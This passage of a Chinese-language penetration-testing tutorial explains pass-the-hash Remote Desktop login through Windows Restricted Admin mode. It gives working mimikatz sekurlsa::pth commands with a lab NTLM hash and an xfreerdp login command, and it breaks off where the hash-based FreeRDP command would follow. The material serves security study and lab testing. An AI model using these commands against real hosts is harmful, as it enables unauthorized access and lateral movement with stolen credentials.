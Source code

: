 Server：

- OS: Server2012 R2
- IP: 192.168.62.136
- Computer Name: remoteserver
- User Name: administrator
- NTLM hash: d25ecd13fddbb542d2e16da4f9e0333d
- 开启Restricted Admin mode

Client:

- 支持Restricted Admin mode

### 方法1： mimikatz

实际上为`Overpass-the-hash`

需要管理员权限

mimikatz命令如下：

```
privilege::debug
sekurlsa::pth /user:administrator /domain:remoteserver /ntlm:d25ecd13fddbb542d2e16da4f9e0333d "/run:mstsc.exe /restrictedadmin"
```

执行后弹出远程登录界面，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-6/3-1.png)

选择`连接`，成功实现远程登录

### 方法2： FreeRDP

下载地址：

https://github.com/FreeRDP

可供参考的文章：

https://labs.portcullis.co.uk/blog/new-restricted-admin-feature-of-rdp-8-1-allows-pass-the-hash/

https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

FreeRDP实现了远程桌面协议，支持传入hash

支持Linux、Windows和MAC，下载地址如下：

https://github.com/FreeRDP/FreeRDP/wiki/PreBuilds

linux下使用明文远程登录的参数：

```
xfreerdp /u:administrator /p:test123! /v:192.168.62.136 /cert-ignore
```

测试成功

linux下使用hash远程登录的参数：
